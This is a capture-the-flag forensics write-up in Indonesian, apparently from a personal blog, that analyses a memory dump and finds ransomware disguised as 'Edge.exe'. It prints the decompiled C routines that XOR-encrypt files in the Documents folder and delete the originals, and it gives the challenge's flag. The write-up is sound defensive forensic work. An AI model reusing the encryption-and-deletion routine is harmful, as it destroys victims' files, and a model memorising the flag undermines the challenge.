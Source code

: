 ```yaml
---
title: "Finding Malicious Application with Prefetch"
date: "2025-04-03"
description: "just a little ransomware case "
categories: [
    "Write-up"
]
tags : [
    "National",
    "Individual"
]
image: RAN.png
---
```

##### 
Halo, jadi ini adalah Write-up terkait chall `pf-ing (prefetch-ing)`kategori DFIR (Digital Forensic Incident Response) yang dibuat oleh goat `k.eii`, ini event dari tahun 2024 btw, upsolve yang cukup lama karna skill issue wkwkwk (dulu masih cupu, sekarang jg masi cupu tapi mendingan lah), dan juga ini menjadi satu satu nya chall forensic yang 0 solve karna emang jujur susah untuk kelas pelajar, tapi gw berhasil solve, dan ini Write-up / tl;dr nya.

![](memfor.png)

Diberikan sebuah file `dump.dmp`, jika kita cek dengan perintah `file`,

![](fle.png)

jadi langsung aja scan files nya, karna udah ketauan dari judul nya, yaitu `pf-ing`, kita fokus untuk scan files yang berformat `.pf`

![](windowsfilescan.png)

disini memang awalnya gw ga ngeliat something sus, tapi gw baru inget kalo microsoft edge itu prosessing nya `msedge.exe`, bukan `edge.exe`, karna sus, DUMP IT!!

![](edgeexegrep.png)

![](dumpfiles.png)

decompile `Edge.exe` nya...

![](decrek.png)

```c
int sub_7FF6571B1830()
{
  unsigned int v1; // eax
  LPSTR pszPath; // [rsp+20h] [rbp-60h]
  CHAR FileName[272]; // [rsp+30h] [rbp-50h] BYREF
  struct _WIN32_FIND_DATAA FindFileData; // [rsp+140h] [rbp+C0h] BYREF
  char v5[272]; // [rsp+280h] [rbp+200h] BYREF
  char v6[272]; // [rsp+390h] [rbp+310h] BYREF
  CHAR Str[272]; // [rsp+4A0h] [rbp+420h] BYREF
  CHAR v8[271]; // [rsp+5B0h] [rbp+530h] BYREF
  unsigned __int8 v9; // [rsp+6BFh] [rbp+63Fh]
  HANDLE hFindFile; // [rsp+6C0h] [rbp+640h]
  int v11; // [rsp+6CCh] [rbp+64Ch]

  hFindFile = (HANDLE)-1i64;
  v11 = 0;
  SHGetFolderPathA(0i64, 5, 0i64, 0, v8);
  SHGetFolderPathA(0i64, 28, 0i64, 0, Str);
  strcat(Str, "\\Temp");
  sub_7FF6571B17E4(Str);
  sub_7FF6571B1591(FileName, 260i64, "%s\\*", v8);
  hFindFile = FindFirstFileA(FileName, &FindFileData);
  if ( hFindFile == (HANDLE)-1i64 )
    return sub_7FF6571B1540("Error finding files in Documents\n");
  v1 = sub_7FF6571B15DB(0i64);
  srand(v1);
  do
  {
    if ( (FindFileData.dwFileAttributes & 0x10) == 0 )
    {
      sub_7FF6571B1591(v6, 260i64, "%s\\%s", v8, FindFileData.cFileName);
      LODWORD(pszPath) = ++v11;
      sub_7FF6571B1591(v5, 260i64, "%s\\%d.dll", Str, pszPath);
      v9 = sub_7FF6571B1652(v6, v5);
      if ( v9 )
      {
        sub_7FF6571B1540("Encrypted %s -> %s with XOR key: 0x%02x\n", FindFileData.cFileName, v5, v9);
        if ( remove(v6) )
          perror("Error deleting original file");
        else
          sub_7FF6571B1540("Deleted original file: %s\n", v6);
      }
      else
      {
        sub_7FF6571B1540("Failed to encrypt file: %s\n", FindFileData.cFileName);
      }
    }
  }
  while ( FindNextFileA(hFindFile, &FindFileData) );
  return FindClose(hFindFile);
}
```
dan pada function `sub_7FF6571B1652`:

![](xorrrr.png)

```c
__int64 __fastcall sub_7FF6571B1652(const char *a1, const char *a2)
{
  FILE *v3; // [rsp+28h] [rbp-28h]
  unsigned __int8 v4; // [rsp+37h] [rbp-19h]
  void *Buffer; // [rsp+38h] [rbp-18h]
  int v6; // [rsp+44h] [rbp-Ch]
  FILE *Stream; // [rsp+48h] [rbp-8h]

  Stream = fopen(a1, "rb");
  if ( Stream )
  {
    fseek(Stream, 0, 2);
    v6 = ftell(Stream);
    rewind(Stream);
    Buffer = malloc(v6);
    if ( Buffer )
    {
      fread(Buffer, 1ui64, v6, Stream);
      fclose(Stream);
      v4 = rand() % 256;
      sub_7FF6571B15FA((__int64)Buffer, v6, v4);
      v3 = fopen(a2, "wb");
      if ( v3 )
      {
        fwrite(Buffer, 1ui64, v6, v3);
        fclose(v3);
        free(Buffer);
        return v4;
      }
      else
      {
        perror("Error opening destination file");
        free(Buffer);
        return 0i64;
      }
    }
    else
    {
      fclose(Stream);
      perror("Memory allocation error");
      return 0i64;
    }
  }
  else
  {
    perror("Error opening source file");
    return 0i64;
  }
}
```

jadi kesimpulannya, `Edge.exe` adalah sebuah ransomware yang mengencrypt file dengan key XOR random, tetapi memiliki limit 256, jadi ini untuk merecovery file nya masih brute-force-able, dan encrypted files nya disimpan di `\\temp`, untuk cek encrypted files nya gw pake PECmd,

![](PECmd.png)

dan bener ternyata ada, karna PECmd cacad gabisa ngasih address nya, terpaksa disini gw harus filescan semua trus nyari manual,


![](rtxt.png)

![](arono.png)

disini gw nyoba yang ke 7 dulu,

![](rawr.png)

dan bukan, sekarang gw nyoba yang ke 6 dan....

![](flag.png)

ini pasti bakal cape bnget sih kalo gw mulai dari 1 wkwkwk, untung dri yg paling akhir, jadi flag nya

Flag: `SNI{intr0_t0_df1r_and_th1s_g1rl_is_w4y_b3tter_than_Chizuru}`

